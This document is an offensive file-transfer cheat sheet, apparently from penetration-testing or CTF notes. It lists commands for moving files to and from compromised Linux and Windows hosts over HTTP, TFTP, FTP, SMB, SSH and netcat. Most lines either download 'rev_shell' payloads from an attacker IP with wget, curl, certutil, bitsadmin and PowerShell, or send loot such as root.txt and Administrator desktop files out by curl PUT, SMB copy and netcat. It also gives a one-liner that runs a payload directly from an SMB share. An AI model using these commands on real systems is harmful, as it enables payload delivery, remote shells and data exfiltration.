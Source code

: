 

# Transfering files
## HTTP

### Method 1

#### Sender

`python3 -m http.server 8000`
`python -m SimpleHTTPServer`

#### Receiver
##### Linux
`wget http://10.10.10.79:8000/rev_shell.sh -O /tmp/rev_shell.sh` <br>
`curl http://10.10.10.79:8000/rev_shell.sh -o /tmp/rev_shell.sh` <br>

##### Windows
`curl http://10.10.10.79:8000/rev_shell.exe -o rev_shell.exe` <br>
You need to mention the -o (-OutFile) flag in order to save the file. If we do not mention the flag then it will only return it as an object i.e., WebResponseObject. <br>
`certutil -urlcache -f http://10.10.10.79:8000/rev_shell.exe rev_shell.exe` <br>
`certutil -urlcache -split -f http://10.10.10.79:8000/rev_shell.exe rev_shell.exe` <br>
(The -split option in certutil is used to split large files into smaller segments to perform the file transfer.) <br>
`bitsadmin /transfer job ttp://10.10.10.79:8000/rev_shell.exe C:\Users\Public\rev_shell.exe` <br>
Bitsadmin is a command-line utility for handling Background Intelligent Transfer Service (BITS) tasks in Windows. It facilitates different file transfer operations, including downloading and uploading files.  <br>
`powershell wget http://10.10.10.79:8000/rev_shell.exe -o rev_shell.exe`
`powershell -c (New-Object System.Net.WebClient).DownloadFile('http://10.10.10.79:8000/rev_shell.exe', 'rev_shell.exe')`
instantly execute it:
``

### Method 2

#### Sender

`curl -T root.txt http://10.10.10.79:8080`

`curl -X PUT --data-binary@"C:\Users\Administrator\Desktop\root.txt" http://10.10.10.79:8080/root.txt`

#### Receiver

python3 -m SimpleHTTPPutServer 8080

[SimpleHTTPPutServer.py](https://gist.github.com/fabiand/5628006)

```
# python3 -m SimpleHTTPPutServer 8080

from http.server import HTTPServer, SimpleHTTPRequestHandler

class PutHTTPRequestHandler(SimpleHTTPRequestHandler):
    def do_PUT(self):
        print(self.headers)
        length = int(self.headers["Content-Length"])
        path = self.translate_path(self.path)
        with open(path, "wb") as dst:
            dst.write(self.rfile.read(length))
        self.send_response(200)
        self.end_headers()


def run(server_class=HTTPServer, handler_class=PutHTTPRequestHandler):
    server_address = ('', 8000)
    httpd = server_class(server_address, handler_class)
    httpd.serve_forever()

if __name__ == '__main__':
    run()
```

Or

`python3 webserver.py

webserver.py
```
from flask import Flask, request
import os

app=Flask(__name__)

@app.route('/root.txt', methods=['PUT'])
def upload_file():
    file=request.data
    with open('root.txt','wb') as f:
        f.write(file)
    return "File Uploaded successfully", 200

if __name__ == '__main__':
    app.run(host='0.0.0.0',port=8080)

```


## TFTP

Use metaspoit framework:
```
use auxiliary/server/tftp
set srvhost 192.168.31.141
set tftproot /root/raj
run
```

```
tftp -i 192.168.31.219 GET ignite.txt
dir
```

## FTP

Use metasploit framework:
```
msfconsole -q
use auxiliary/server/ftp
set srvhost 192.168.31.141
set ftproot /root/raj
set ftpuser raj
set ftppass 123
run
```

```
ftp 192.168.31.141
dir
get ignite.txt
```

`python3 -m pyftpdlib -w -p 21 -u ignite -P 123`

```
ftp 192.168.31.141
get ignite.txt
put C:\Users\raj\avni.txt
```

or:
`wget ftp://<kali_IP>:<Port_number>/<file> (-O /path/to/dir/<file>)`

## SMB

### Bi-directional

```
impacket-smbclient "$user:$pass@$ip"
use Shared
put rev_shell.exe
get secret.txt
```

```
smbclient -L 192.168.31.141
smbclient "\\\\192.168.31.141\share"
ls
get ignite.txt
put data.txt
```

#### Sender
`impacket-smbserver share .` <br>
`impacket-smbserver share $(pwd) -smb2support -username smbuser -password smbpass` <br>
Sometimes it is not allowed to connect to shares without authentication.

#### Receiver

```
net use \\10.10.10.45\share /user:smbuser
smbpass
```

`copy ignite.txt \\192.168.31.141\share\ignite.txt`

to instantly execute it: `powershell -c (\\<kali_IP\<server_name>\<payload)`

or just copy: `copy \\192.168.31.141\share\ignite.txt`

`copy C:\Users\Administrator\Desktop\root.txt \\10.10.10.79\share\`

Kali -> Victim

| Kali    | Windows Victim PowerShell |
| -------- | ------- |
| impacket-smbserver <server_name> .  | to instantly execute it: powershell -c (\\<kali_IP\<server_name>\<payload) |

impacket-smbserver <server_name> .

## SSH

### Sender

`scp secret.txt kali@10.10.10.79:/path/to/dir`
`scp ./hash.txt kracken@192.168.0.45:"C:\\Users\\kracken\\Desktop\\hacking\\hashes\\hash.txt"`

### Receiver

`scp kracken@192.168.0.45:"/C:/Users/kracken/Desktop/crack" .`

## NetCat

receiver:
`nc -lvp 5555 > file.txt`
and then sender:
`nc 192.168.31.141 5555 < file.txt`
`nc -w 3 [destination] <Port_number> < <file_name>`

On Windows:
`nc.exe 192.168.31.141 5555 < data.txt`
`nc -lvp 5555 > data.txt`



Useful notes:
- On Linux receiving: worth using /tmp directory, as it is globally readable, writeable and executable.
- On Windows the C:\Users\Public\ directory is accessible to all users on a Windows system.
- Upgrade your shell if possible.
- If one method doesn't work, try another one.
